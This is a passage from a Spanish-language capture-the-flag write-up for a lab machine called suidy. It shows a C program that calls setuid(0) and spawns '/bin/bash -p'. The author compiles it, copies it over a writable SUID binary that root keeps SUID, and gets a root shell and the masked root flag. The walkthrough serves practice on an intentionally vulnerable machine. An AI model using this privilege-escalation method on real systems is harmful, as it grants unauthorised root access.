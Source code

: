 *Al ejecutarlo cambia el usuario a suidy y nos permite leer el archivo note.txt* 

## Contenido de note.txt 

```bash
suidy@suidy:/home/suidy$ cat note.txt 
I love SUID files!
The best file is suidyyyyy because users can use it to feel as I feel.
root know it and run an script to be sure that my file has SUID. 
If you are "theuser" I hate you!

-suidy
```

## Modificación del archivo suidyyyyy y obtención de flag del usuario root 


### Código en C para ejecutar una bash como root 

```c
#include <stdio.h>

int main() {


   //use the system fucntion to execute the command.
   setuid(0);
   system("/bin/bash -p");

   return 0;
}
```

```bash

theuser@suidy:~$ gcc exec.c -o exec


theuser@suidy:/home/suidy$ cp ../theuser/exec suidyyyyy


theuser@suidy:/home/suidy$ ls
note.txt  pspy64  suidyyyyy

theuser@suidy:/home/suidy$ ./suidyyyyy

 
root@suidy:/home/suidy# whoami
root


root@suidy:/# cd root/

root@suidy:/root# ls
root.txt  timer.sh

root@suidy:/root# cat root.txt 
HMV00*****
```


